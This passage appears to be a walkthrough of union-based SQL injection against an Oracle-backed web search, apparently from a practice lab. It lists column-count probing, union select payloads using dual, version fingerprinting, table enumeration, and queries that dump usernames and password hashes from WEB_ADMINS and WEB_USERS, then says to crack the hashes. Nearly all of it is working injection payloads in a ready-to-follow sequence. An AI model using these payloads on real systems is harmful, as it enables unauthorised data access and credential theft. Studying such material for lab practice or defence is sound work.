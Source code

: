 | Syntax | Description |
| ----------- | ----------- |
| ' order by 1-- | no error message |
| ' order by 5-- | error message |
| ' order by 4-- | error message |
| ' order by 3-- | no error message |
So as of now we know that 3 is the last column which worked, let us prepare the union select statement
```
' union select 1,2,3--
```
Error Message:
>Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected
>Unlike MySQL Oracle do not allow select statement without from clause. As we have prepared the Union select statement our next task is to check which column is getting printed that we can do by random testing each column one by one by printing the current database name
Testing for columns:
```SQL
' union select 1,2,3 from dual--
```
```SQL
' union select null,null,null from dual--
```
```SQL
' union select '1111',null,null from dual--
```
```SQL
' union select null,'2222',null from dual--
```
```SQL
' union select null,null,'3333' from dual--
```
```SQL
' union select user,null,null from dual--
```
Finding the version:
```SQL
' union select (select banner from v$version where rownum=1),null,null from dual--
```
Finding all table names:
```SQL
' union select table_name,null,null from all_tables--
```
Dumping columns of found table:
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_ADMINS'--
```
Dumping values of found columns:
```SQL
' union select ADMIN_ID||ADMIN_NAME||PASSWORD,null,null from WEB_ADMINS--
```
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_CONTENT'--
```
```SQL
' union select AUTHOR||CONTENT_ID||RELEASEYEAR||TITLE,null,null from WEB_CONTENT--
```
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_USERS'--
```
```SQL
' union select PASSWORD||USER_ID||USER_NAME,null,null from WEB_USERS--
```
Take hash value and crack!